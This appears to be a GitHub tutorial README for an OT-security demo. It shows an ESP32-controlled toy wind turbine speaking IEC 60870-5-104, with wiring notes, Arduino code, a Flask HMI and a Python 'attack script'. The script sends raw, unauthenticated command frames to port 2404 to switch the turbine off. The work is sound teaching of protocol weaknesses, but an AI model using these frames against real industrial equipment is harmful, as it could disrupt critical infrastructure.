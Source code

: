 # Hacking demo of a wind turbine using he IEC 60870-5-104 protocol
Working on OT security often involves a lot of talk about frameworks, network segmentation, monitoring and other controls. However, to better connect to the actual systems, its useful to get some hands-on experience with the actual protocols. For this demo, I obtained a Bricks windturbine (Lego was to expensive :)) and connected it to an ESP32. The ESP32 simulates a very simple operation, in this case an operator being able to remotely switch on and off the wind turbine. 

## Shoppinglist
The following items are required to build the demo

| ID | Item | URL |
|-----:|-----------|-----------|
|     1| ESP32    |https://www.amazon.nl/AZDelivery-ESP32-Development-compatibel-Inclusief/dp/B074RGW2VQ |
|     2| Windturbine bricks    | https://nl.aliexpress.com/item/1005006791312791.html |
|     3| Relais    | https://www.amazon.nl/dp/B07CNR7K9B?th=1 |
|     4| Chandler    | https://www.amazon.nl/UNITEC-Kroonluchter-12-polig-inzetbaar-transparant/dp/B007CWCQ74|
|     5| 9v Battery connector    | https://www.amazon.nl/dp/B08ZD7ZB8T |
|     6| 9v Battery     | https://www.amazon.nl/Duracell-Plus-MN1604-Alkaline-batterijen/dp/B00011PJDG |

## Wiring
When looking at the bricks cable, you find that the 4 metal connectors indicate: ground, a 9v line and two lines called c1 and c2 (used to control the direction). I figured that the easiest way for the demo is to connect 9v and GND directly to line c1 and c2.

As such, I cut the bricks line and connected a chandler (kroonluchter) for each of use (and to extend the wire a bit). During this process, I learned that the multimeter indicates the polarity while doing a measurement by showing the minus sign in front of the number (in case its reversed).

![Picture of polarity](https://raw.githubusercontent.com/JeroenSlobbe/Tutorials/main/LegoWindturbine/img/polarity.png?raw=true)

After this worked, I figured it would be easier to use a 9v battery and came op with the following setup:
![Picture of setup](https://raw.githubusercontent.com/JeroenSlobbe/Tutorials/main/LegoWindturbine/img/setup.png?raw=true)

Note that NO indicates Normal Open and NC indicates Normal Closed. By default, I want the wind turbine to work, so I picked NO.

## Software (Arduino)
After the wiring was complete, I started working on the software and found that Crisce implemented a PoC for the IEC 60870-5-104 protocol for the ESP32: https://github.com/Crisce/IEC60870-5-104. 
First, I downloaded the library as a .zip and added the library to the Arduino IDE:

![Picture of libs](https://raw.githubusercontent.com/JeroenSlobbe/Tutorials/main/LegoWindturbine/img/libs.png?raw=true)

Afterwards, I copied the code from: https://github.com/Crisce/IEC60870-5-104/tree/master/examples/Slave_Server_Demo and updated it, for the purpose of this demo.


```arduino
/*ESEMPIO IEC60870-5-104 SLAVE*/

#include <WiFi.h>
#include <IEC60870-5-104.h>

#define RELAY_PIN 25

//create the SERVER instance IEC60870-5-104
WiFiServer srv(2404); 
IEC104_SLAVE slave(&srv);

unsigned long lastSend=0;

void setup()
{
  Serial.begin(115200);
  WiFi.mode(WIFI_STA); 
  WiFi.begin("yourWiFiNetwork","changeme"); 
  pinMode(RELAY_PIN, OUTPUT);

  Serial.print("Trying to connect to WiFi");
  while (WiFi.status() != WL_CONNECTED) {
    delay(500);
    Serial.print(".");
  }
  Serial.println(); // Move to the next line once connected
  Serial.print("Program initialized and connected to WiFi. IP address: ");
  Serial.println(WiFi.localIP());
  digitalWrite(RELAY_PIN, HIGH);
  Serial.print("Windturbine started");
}

void loop()
{
  //------------------------------------------------------------"Reception of an SP or DP command.------------------------------------------------------------//
  // Note: SP = Single Point and DP = Double Point
  int messages = slave.available();

  for(int i=0; i<messages; i++)
  {
    // create support variables to read the buffer
    // CA = Common Address
    // IOA = Information Object Address
    byte type = 0; int ca = 0; long ioa = 0; long value = 0;

    //Reading the bufferr
    slave.read(&type,&ca,&ioa,&value);
    //Use the received data
    if (type == C_SC_NA_1) 
    {
      Serial.println("You have received a Single Point Command from C.A.:" + String(ca) + "-IOA:" + String(ioa) + " equal to " + String(value));
      if(value == 2)
      {
        digitalWrite(RELAY_PIN, HIGH);
        Serial.println("Windurbine set to ON");
      }
      else
      {
        digitalWrite(RELAY_PIN, LOW);
        Serial.println("Windurbine set to OFF");
      }
    } 

  }
}
```
## HMI and attack script
Luckily the protocol is well specified by [Berckhoff](https://infosys.beckhoff.com/english.php?content=../content/1033/tf6500_tc3_iec60870_5_10x/984444939.html&id=)
). Based on this, I was able to write two python scripts. One based on Flask, simulating an HMI that can enable / disable the turbine and the second one simulating the attacker in a terminal (for dramatic demo purposes).

```python
from flask import Flask, render_template, request
import socket

app = Flask(__name__)

# Define the server's IP and port
HOST = "192.168.2.32"  # Replace with your target IP
PORT = 2404            # Replace with your target port

@app.route('/')
def home():
    return render_template("hmi.html")

@app.route('/control', methods=['POST'])
def control_windturbine():
    action = request.form.get("action")  # Get the action from the form
    raw_message = b""  # Initialize raw message

    if action == "Enable":
        raw_message = b'\x68\x0e\x00\x00\x00\x00\x2D\x01\x03\x00\x32\x01\x00\x00\x00\x02'
    elif action == "Disable":
        raw_message = b'\x68\x0e\x00\x00\x00\x00\x2D\x01\x03\x00\x32\x01\x00\x00\x00\x01'

    try:
        # Create and connect the socket
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as client_socket:
            client_socket.connect((HOST, PORT))
            client_socket.sendall(raw_message)
            print(f"Raw message sent: {raw_message}")
        message = f"Successfully sent: {action} command"
    except Exception as e:
        message = f"Failed to send command: {e}"
    
    return render_template("hmi.html", message=message)

if __name__ == '__main__':
    app.run(debug=True)
```
Finally, I created an attack script for the demo effect (and getting a better understanding of the protocol):

```python
import socket

# Define the server's IP and port
HOST = "192.168.2.32"  # Replace with your target IP
PORT = 2404            # Replace with your target port

# Create a TCP socket
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as client_socket:
    try:
        # Connect to the server
        client_socket.connect((HOST, PORT))
        print(f"[x] Connected to {HOST}:{PORT}")

        # Construct the raw message (IEC 60870-5-104 format or custom format), specified via: https://infosys.beckhoff.com/english.php?content=../content/1033/tf6500_tc3_iec60870_5_10x/984444939.html&id=
        # The protocol is formatted: 
        # 1x[init byte: x68] 
        # 1x[length], Application Protocol Data Unit.. e=14
        # 4x [controlfield] 
        # 1x[typeID] 2D represents:C_SC_NA_1 -> https://github.com/Crisce/IEC60870-5-104/blob/master/src/IEC60870-5-104.h
        # ----
        # 1x [number of objects], in this case 1 is enough
        # 1x [cause of transmission], in this case 0x3, which is spontaniously: https://infosys.beckhoff.com/english.php?content=../content/1033/tf6500_tc3_iec60870_5_10x/983848075.html&id=
        # 1x [originator address]
        # 2x [ADSU address], in this case 50 (or 0x32 in hex)
        

        # 3x [IOA], Information object address fields = 1
        # 1x [command value] x02 = ON
        #raw_message = b'\x68\x0e\x00\x00\x00\x00\x2D\x01\x03\x00\x32\x01\x00\x00\x00\x02' enable the windturbine
        raw_message = b'\x68\x0e\x00\x00\x00\x00\x2D\x01\x03\x00\x32\x01\x00\x00\x00\x01' # disable the windturbine
        print("[x] sending payload: " + str(raw_message))

        # Send the raw message
        client_socket.sendall(raw_message)
        print("[x] payload delivered succesfull!")


    except Exception as e:
        print(f"Error: {e}")
```

![Picture of demo](https://raw.githubusercontent.com/JeroenSlobbe/Tutorials/main/LegoWindturbine/img/demo.png?raw=true)
